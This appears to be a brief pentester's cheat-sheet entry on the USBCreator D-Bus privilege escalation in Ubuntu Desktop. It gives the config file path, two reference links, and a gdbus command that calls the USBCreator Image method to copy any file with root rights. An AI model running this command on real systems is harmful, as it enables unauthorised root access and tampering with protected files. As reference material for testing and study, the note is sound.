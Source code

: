 # USBCreator

### USBCreator Privilege Escalation

d-bus command injection

```bash
# config file path
cat /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
# makes a copy of file
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image 'FROM-FILE' 'TO-FILE' true

# py method didn't work
https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation
```
